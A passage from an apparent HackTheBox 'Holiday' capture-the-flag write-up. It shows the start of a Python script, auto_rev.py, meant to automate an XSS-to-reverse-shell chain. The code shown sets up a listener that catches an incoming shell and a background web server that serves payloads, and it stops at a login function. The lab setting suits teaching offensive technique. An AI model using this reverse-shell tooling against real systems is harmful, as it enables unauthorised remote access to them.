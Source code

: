 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2001:32:54.png)

auto_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - With XSS!!! - Holiday HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os
import re
import ipaddress
from urllib.parse import unquote

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# First, we need to login as RickA to send the XSS to the server
def loginRickA(rhost):
    print("[+] Let's login as RickA !!! [+]")
```